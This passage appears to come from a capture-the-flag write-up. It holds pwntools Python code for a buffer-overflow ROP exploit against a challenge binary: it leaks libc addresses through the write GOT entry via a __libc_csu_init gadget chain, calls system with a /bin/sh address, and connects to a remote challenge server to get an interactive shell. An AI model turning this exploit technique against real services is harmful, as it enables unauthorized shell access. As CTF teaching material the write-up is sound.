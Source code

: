 ```python
exploit += p64(sh_address)
exploit += p64(system_address)

p.sendline(exploit)
p.interactive()
```

And final exploit can be seen here. 

```python
from pwn import *

baby1 = ELF('./baby1')

main        = baby1.symbols[b'main']
write_plt   = baby1.symbols[b'write']
write_got   = baby1.got[b'write']
read_got    = baby1.got['read']

lib_csu_pop     = 0x004006ba
lib_csu_mov     = 0x004006a0

init            = 0x600e38 + 0x8 

def leak_libc(function_address):
    payload = 'A' * 56 

    payload += p64(lib_csu_pop)
    payload += p64(0x00)            # pop rbx
    payload += p64(0x01)            # pop rbp
    payload += p64(init)            # pop r12
    payload += p64(0x08)            # pop r13 (rdx after lib_csu_mov) 
                                    # How many bytes to write.

    payload += p64(function_address)# pop r14 (rsi)
                                    # Here we'll supply address of 
                                    # GOT entries for read and write.

    payload += p64(0x01)            # pop r15 (edi)
                                    # Write to stdout.

    payload += p64(lib_csu_mov)     # Upper part of libc_csu moves
                                    # our values into correct registers.
                                    
    payload += p64(0x00)            # add rsp,0x8 padding
    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15
    payload += p64(write_plt)       # Finally write the leaked address
    payload += p64(main)            # Go to main to repeat the process without
                                    # connecting once again.
    return payload

#p = process('./baby1')
p = remote('51.254.114.246', 1111)
p.recv(1024)


p.sendline(leak_libc(write_got))

libc_write = u64(p.recv(8))
```